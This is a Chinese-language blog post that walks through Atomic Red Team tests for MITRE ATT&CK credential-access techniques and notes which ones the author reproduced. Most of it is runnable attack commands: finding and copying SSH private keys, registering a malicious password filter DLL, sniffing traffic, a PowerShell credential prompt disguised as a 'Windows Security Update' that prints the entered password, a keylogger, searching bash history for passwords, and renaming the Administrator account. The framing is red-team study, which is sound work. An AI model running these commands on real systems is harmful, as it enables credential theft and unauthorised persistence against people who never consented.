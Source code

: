 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之credential-access
excerpt: "跟着ATT&CK学安全之credential-access"
categories: [ATT&CK]
comments: true
---
```

#### T1145 - Private Keys
私钥和证书可以进行权限验证,加解密进行数字签名.攻击者可用这些进行权限维持或者解密文件.通常密钥和证书的后缀是`.key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. `

私钥一般需要密码和口令来操作,所以红队可以使用工具进行键盘记录或者爆破密码
###### 测试1 Private Keys
在windows中查找`.key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc`后缀的文件名
```
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```
win10成功复现
###### 测试2 Discover Private SSH Keys
在linux中查找ssh私钥
```
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```
成功复现
###### 测试3 Copy Private SSH Keys with CP
```
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```
成功复现
###### 测试4 Copy Private SSH Keys with rsync
```
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```
成功复现
### T1174 - Password Filter DLL
Windows password filters对于本地和域账户来说都是一种密码校验的机制,Filters使用dll作为接口,来进行密码规则的校验.Filter Dll在本地电脑对本地账户或者域控管理者进行校验.

在使用Security Accounts Manager注册新的密码之前, Local Security Authority向registered filter请求验证,当验证通过才能进行密码修改

红队可以注册一个有害的password filters来危害本地电脑或者真个域控
###### 测试1 Install and Register Password Filter DLL
使用powershell来安装注册password filter DLL,同时需要administrative权限和重启
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```
**项目中缺少文件,没有复现**
### T1040 - Network Sniffing
这个没什么说的,就是抓流量
###### 测试1 Packet Capture Linux
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
###### 测试2 Packet Capture Windows Command Prompt
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
### T1141 - Input Prompt
当程序被运行后需要额外的权限的时候,系统会向用户索要额外的权限凭证.红队可模仿这个方法,向用户索要额外的权限凭证.并记录下来
###### 测试1 PowerShell - Prompt User for Password
在powershell中运行
```
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```
ps:效果相当好啊!!!

win10成功复现
### T1056 - Input Capture
Keylogging 是最常用的input caputure手段
###### 测试1 Input Capture
```
set-ExecutionPolicy RemoteSigned
.\T1056\src\Get-Keystrokes.ps1 -LogPath #{filepath}
```
没有成功,回家再试一下
### T1139 - Bash History
红队可以从`~/.bash_history`找一些敏感信息
###### 测试1 Search Through Bash History
```
cat #{bash_history_filename} | grep #{bash_history_grep_args}
例如
cat ~/.bash_history | grep -e '-p ' -e 'pass' -e 'ssh'
```
成功复现
### T1098 - Account Manipulation
帐户操作可以帮助对手维护对环境中的凭据和特定权限级别的访问。修改包括修改凭证,修改权限,添加组,修改账户设置或者修改验证方式.为了修改账户,红队必须首先获得这个操作系统的权限.

对于Exchange Email Account Takeover:允许在本地 Exchange 和基于云的服务中可用,其中Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。 简单而言，Exchange server可以被用来构架应用于企业、学校的邮件系统。

对于Azure AD:红队可以设置第二个密码来persistence

对于AWS:AWS通过账户名新人用户.
###### 测试1 Admin Account Manipulate
修改账户名称
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
没有复现
### T1110 - Brute Force
红队可使用爆破的方法来获取密码